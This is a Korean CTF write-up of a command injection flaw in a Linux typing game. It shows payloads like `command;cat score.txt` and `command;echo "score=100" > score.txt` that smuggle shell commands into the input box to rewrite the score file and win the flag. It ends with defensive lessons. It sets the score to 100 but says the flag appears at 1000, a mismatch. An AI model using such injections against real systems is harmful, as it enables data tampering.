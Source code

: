 # 문제 29 - 리눅스 타자 연습 게임 Challenge Solution

## 문제 설명
리눅스 타자 연습 게임에서 Command Injection 취약점을 이용하여 점수를 조작하고 플래그를 획득하는 문제입니다.

## 풀이 과정
1. 게임 실행
   - 게임 시작 버튼을 클릭하여 게임 시작
   - 기본적으로 단어 맞추기당 1점씩 획득
   - script.js 읽어보면 커맨드 인젝션 을 할떄 앞에 오는 단어가 내려오는 명령어 혹은 command 일때 명령어가 인식됨
  ![alt text](./images/image-1.png)

2. Command Injection 취약점 발견
   - 입력창에 `command;ls` 또는 `단어;ls` 입력 시 가상 디렉토리 내용 확인 가능
   - score.txt 파일 발견

3. 점수 조작
   ```bash
   # 현재 점수 설정 확인
   command;cat score.txt
   > score=1

   # 점수 값 수정
   command;echo "score=100" > score.txt

   # 수정된 점수 확인
   command;cat score.txt
   > score=100
   ```

4. 플래그 획득
   - 수정된 점수(100점)로 단어 입력
   - 1000점 달성 시 플래그 자동 출력

## 사용된 기술
- Command Injection
- 파일 시스템 조작
- 점수 시스템 취약점

## 보안 교훈
1. 사용자 입력값 검증의 중요성
2. 파일 시스템 접근 제어의 필요성
3. 점수 시스템 무결성 보장의 중요성
4. Command Injection 방지를 위한 입력값 필터링

## 최종 플래그
```
flag{4368616c6c656e6765666c6167}